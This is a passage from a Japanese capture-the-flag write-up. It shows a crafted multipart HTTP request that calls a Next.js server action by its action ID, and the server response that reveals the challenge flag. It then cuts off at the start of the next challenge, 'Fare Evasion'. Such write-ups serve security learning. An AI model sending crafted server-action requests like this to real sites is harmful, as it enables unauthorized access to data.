 ```http
Accept-Encoding: gzip, deflate, br

Connection: keep-alive

------WebKitFormBoundarylivQD5fbtFxQuOpP
Content-Disposition: form-data; name="1_$ACTION_ID_c3a144622dd5b5046f1ccb6007fea3f3710057de"


------WebKitFormBoundarylivQD5fbtFxQuOpP
Content-Disposition: form-data; name="0"

["$K1"]
------WebKitFormBoundarylivQD5fbtFxQuOpP--

```

レスポンスを確認するとflagを確認できます。

```http
HTTP/1.1 303 See Other
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Url, Accept-Encoding
Cache-Control: s-maxage=1, stale-while-revalidate
Set-Cookie: authjs.callback-url=http%3A%2F%2F111.217.132.121; Path=/; HttpOnly; SameSite=lax
x-action-revalidated: [[],0,1]
x-action-redirect: /login
accept-ranges: bytes
content-type: text/plain
date: Sun, 30 Jun 2024 08:58:15 GMT
etag: "667f90f3-3c"
last-modified: Sat, 29 Jun 2024 04:43:31 GMT
server: nginx/1.27.0
x-nextjs-cache: HIT
X-Powered-By: Next.js
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 60

uiuctf{close_enough_nextjs_server_actions_welcome_back_php}
```

### Fare Evasion

173 Solves

ソースコードなし。  
アクセスすると以下のような画面が表示されます。
